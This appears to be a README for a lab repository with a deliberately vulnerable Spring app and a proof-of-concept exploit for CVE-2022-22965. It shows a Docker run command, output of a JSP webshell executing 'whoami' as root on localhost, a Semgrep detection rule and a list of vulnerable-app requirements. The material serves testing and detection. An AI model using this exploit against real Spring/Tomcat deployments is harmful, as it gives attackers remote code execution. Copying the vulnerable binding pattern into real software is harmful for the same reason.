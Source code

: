 CVE-2022-22965 - vulnerable app and PoC
---------------------------------------

## Trial & error

```bash
$ docker rm -f rce; docker build -t rce:latest . && docker run -d -p 8080:8080 --name rce rce:latest && sleep 5 && python poc.py
```

### Output example
```
rce
sha256:f626a2190dc0790c610afd4f12a4b2482b6a726d671fdac1432275de89c07cd6
1a048e5725f754d331de9491d0750c4c7a163472dea1fd1554edccfd00d7f6e5
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?cmd=whoami
root
```

## Identification with [Semgrep](https://semgrep.dev/)

```bash
$ semgrep --config=semgrep-rule.yml .
```

[Semgrep rule and test cases](https://semgrep.dev/s/DDuarte:cve-2022-22965)

### Output example

```
Findings:

  src/main/java/com/example/demo/controller/IndexController.java
     cve-2022-22965
        Semgrep found a match


         14┆ @RequestMapping("/index")
         15┆ public void index(EvalBean evalBean) {
         16┆
         17┆ }

Ran 1 rule on 3 files: 1 finding.
```

## Vulnerable app requirements[^1]

- JDK 9 or above
- Standalone Tomcat (no Embedded Tomcat) with WAR deployment
- Any Spring version before 5.3.18 / 5.2.20 (Spring Boot before 2.5.12 / 2.6.6)
- No blocklist on WebDataBinder / InitBinder
- Parameter bind with POJOs directly (no @RequestBody, @RequestQuery, etc.)
- Writeable file system (e.g webapps/ROOT)

[^1]: Assuming exploits similar to the known PoCs. There might be other gadgets...


## Sources

- https://twitter.com/vxunderground/status/1509170582469943303 / https://github.com/craig/SpringCore0day
- https://github.com/fengguangbin/spring-rce-war
